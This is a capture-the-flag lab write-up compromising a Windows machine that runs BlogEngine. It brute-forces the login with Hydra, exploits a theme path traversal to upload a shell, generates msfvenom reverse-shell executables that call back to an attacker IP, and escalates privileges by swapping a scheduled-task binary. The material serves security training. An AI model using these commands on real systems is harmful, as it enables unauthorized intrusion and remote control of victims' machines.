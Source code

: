 ## Introduction

Name of the clown

Do a reverse image search

![image](https://user-images.githubusercontent.com/16500435/97789904-84c56100-1bc4-11eb-9b3c-10e64e32f4d3.png)


## Using Hydra to brute-force a login
We need to find a login page to attack and identify what type of request the form is making to the webserver.

![image](https://user-images.githubusercontent.com/16500435/97790028-86435900-1bc5-11eb-86af-33f4f11ac77e.png)

![image](https://user-images.githubusercontent.com/16500435/97790030-9a875600-1bc5-11eb-8bd5-1aca2c490575.png)

### What request type is the Windows website login form using?
Inspect the webpage

![image](https://user-images.githubusercontent.com/16500435/97790071-eafeb380-1bc5-11eb-9c94-fa5a33b7a47a.png)

To  use hydra to attack the login page

we need to know 3 things
1. The first is the page on the server to GET or POST to
2. POST/GET variables (this can be obtained by interceptng with burpsuite or inspect with the browser
3. the string that it checks for an invalid or valid login

the 3 things are separated by :

for this webpage;

```diff
- 1 = /Account/login.aspx
```

![image](https://user-images.githubusercontent.com/16500435/97790220-12a24b80-1bc7-11eb-9971-f21e015e060a.png)

```diff
- 2 =
```
__VIEWSTATE=NPcS%2FpPhbdpYWPlz3e74oFCXMstMbFqsP9cOiB4V8tH6xy7L82cQCWH3qQgCTeCoC8%2BUmqGDy7R%2Ffshw3WGlKVk%2BNFV2lMJiJO68c31GLNzcyHnqHFXU8jKKIdbnUPhyqURshgyGe8FNU2wgrI%2FeouiiPG4nL3e4pII5dfRTwvkHiHO3iWrgMhaQKLUsL5kQyfLku5kbk%2F21SAMguE9fI8wO%2FY4koYBwIBFH9m%2FxbkIYOsK26%2B3faUvN7vyzNNV%2BIyACpa8CgVI%2FxHVy4hW%2FtjPBdlc5QWrh69LR4SEVuFSby94rPwlA86Vk66Ui02Ug7qd62oHcebVjWyiYXOxRK0o7c0DN2On1ACrMXtAlF7dr6jj7&__EVENTVALIDATION=FlYxJzeHWCNQkM9qo57%2Fk6MbCgdLruRe41cZxlMooYGMNdS3onCsDAcKAha3%2FNCVMRzf%2BZl9z4sZBQrPURw8Xg%2BKOIr7H601FFotgpUO6wCpgj4%2F6SbRZgtC5kLZqsLKApwKszpNxHDx1N8dXHe4jAbDP4kLIn%2BpiXKKDI9Az1RN2n3e&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=login123&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in

![image](https://user-images.githubusercontent.com/16500435/97790313-df13f100-1bc7-11eb-930a-839bdcaa5aae.png)

```diff
- 3 =
```
Login failed

![image](https://user-images.githubusercontent.com/16500435/97790334-0ff42600-1bc8-11eb-88d3-300de801586e.png)

full command to brute-force with hydra is;

_$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.160 http-post-form "/Account/login.aspx:__VIEWSTATE=NPcS%2FpPhbdpYWPlz3e74oFCXMstMbFqsP9cOiB4V8tH6xy7L82cQCWH3qQgCTeCoC8%2BUmqGDy7R%2Ffshw3WGlKVk%2BNFV2lMJiJO68c31GLNzcyHnqHFXU8jKKIdbnUPhyqURshgyGe8FNU2wgrI%2FeouiiPG4nL3e4pII5dfRTwvkHiHO3iWrgMhaQKLUsL5kQyfLku5kbk%2F21SAMguE9fI8wO%2FY4koYBwIBFH9m%2FxbkIYOsK26%2B3faUvN7vyzNNV%2BIyACpa8CgVI%2FxHVy4hW%2FtjPBdlc5QWrh69LR4SEVuFSby94rPwlA86Vk66Ui02Ug7qd62oHcebVjWyiYXOxRK0o7c0DN2On1ACrMXtAlF7dr6jj7&__EVENTVALIDATION=FlYxJzeHWCNQkM9qo57%2Fk6MbCgdLruRe41cZxlMooYGMNdS3onCsDAcKAha3%2FNCVMRzf%2BZl9z4sZBQrPURw8Xg%2BKOIr7H601FFotgpUO6wCpgj4%2F6SbRZgtC5kLZqsLKApwKszpNxHDx1N8dXHe4jAbDP4kLIn%2BpiXKKDI9Az1RN2n3e&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"_


username = "admin" from the post(hint)

password is a wordlist

Output from the hydra bruteforce

![1](https://user-images.githubusercontent.com/16500435/97790537-a117cc80-1bc9-11eb-8613-922a6190526d.jpg)


**Compromising the machine**

![2](https://user-images.githubusercontent.com/16500435/97790577-f18f2a00-1bc9-11eb-9278-2330ffdb567f.jpg)

we can see the version of the blogengine running after logon
then search exploitdb or use searchsploit to find vulnerabilities/exploit for this version

**Searchsploit**
![3](https://user-images.githubusercontent.com/16500435/97790646-78dc9d80-1bca-11eb-98fe-88c4ad818483.jpg)

**Exploitdb**
![4](https://user-images.githubusercontent.com/16500435/97790659-a6294b80-1bca-11eb-8010-164de3bb1159.jpg)

Read through the instruction on exploitdb
Download the exploit
Change the attacker ip address and port on the code to your ip/port

![5](https://user-images.githubusercontent.com/16500435/97790680-e2f54280-1bca-11eb-8436-b56292a992db.jpg)

save as PostView.ascx
Upload this file to the machine (this url will provide means to upload file to the machine http://10.10.221.182/admin/app/editor/editpost.cshtml)

![6](https://user-images.githubusercontent.com/16500435/97790700-13d57780-1bcb-11eb-8544-69f9006fa247.jpg)

the vulnerability is triggered by accessing the base URL for the blog with a theme override specified like so:
 
http://10.10.221.182/?theme=../../App_Data/files

start a netcat session to listen on the port you specify in the exploit then access the above url

![7](https://user-images.githubusercontent.com/16500435/97790724-497a6080-1bcb-11eb-839e-88413a0bb36c.jpg)

This shell is unstable to get a more stable shell We will create a reverse shell executable with msfvenom:

on your machine run the command;

_msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=<attacker_machine_ip> LPORT=<port_to_listen> -f exe -o <shell_name.exe>_

Example: _msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.69.211 LPORT=4444 -f exe -o myshell.exe_

Now upload this file to the window machine using powershell

start a simple HTTPserver to serve

![a](https://user-images.githubusercontent.com/16500435/97790751-92321980-1bcb-11eb-8bb3-f8ae5e75685a.jpg)

on the window machine

![b](https://user-images.githubusercontent.com/16500435/97790813-31efa780-1bcc-11eb-9c7f-02ea9eec0cdd.jpg)

Once the upload is successful, execute the file
first start an nc session to listen on the port specified on the shell you created.

![c](https://user-images.githubusercontent.com/16500435/97790856-ac202c00-1bcc-11eb-8631-f921856ade1d.jpg)
![d](https://user-images.githubusercontent.com/16500435/97790866-c528dd00-1bcc-11eb-8dce-ea560739a548.jpg)

To Execute the file ;
_start myshell.exe_

![e](https://user-images.githubusercontent.com/16500435/97790877-e8538c80-1bcc-11eb-90ae-e8ce4bd1bd0e.jpg)

Successfully connected

```diff
@@*Alternative Method*@@
```
Use Metersploit
Upload the shell and execute the shell on the window machine, then exploit on metasploit

![f](https://user-images.githubusercontent.com/16500435/97790967-e4743a00-1bcd-11eb-8d4b-23860c806602.jpg)

![g](https://user-images.githubusercontent.com/16500435/97790974-f950cd80-1bcd-11eb-890e-45daab2f991c.jpg)

## PRIVILEGE ESCALATION

![aa](https://user-images.githubusercontent.com/16500435/97791015-3f0d9600-1bce-11eb-967a-890a84176788.png)

![bb](https://user-images.githubusercontent.com/16500435/97791042-809e4100-1bce-11eb-883d-bbeee85cfa57.png)

**ALternative Method to Escalate Privilege**

Going through the winPEAS output on the services tab, we can see interesting service (WindowsScheduler) which can be modified.
its located in C:\Program Files (x86)\SystemScheduler

![h](https://user-images.githubusercontent.com/16500435/97791095-f30f2100-1bce-11eb-8351-184adbc20e23.jpg)

navigate to this directory and see what is in it

![i](https://user-images.githubusercontent.com/16500435/97791110-1afe8480-1bcf-11eb-8bc9-2e0de59670bd.jpg)

we also can check tasks that are running using the command _tasklist /v_

![cc](https://user-images.githubusercontent.com/16500435/97791141-631da700-1bcf-11eb-8aca-61713da1ea00.png)

We can use **venom** to create a window reverse-shell and replace the task with it

_msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.69.211 LPORT=4444 -f exe -o shell.exe_

![j](https://user-images.githubusercontent.com/16500435/97791186-cc051f00-1bcf-11eb-80e4-0701710112cc.jpg)

![dd](https://user-images.githubusercontent.com/16500435/97791206-23a38a80-1bd0-11eb-9ace-9b85a601be4f.png)

![image](https://user-images.githubusercontent.com/16500435/97791225-59e10a00-1bd0-11eb-86fb-a406f9260064.png)


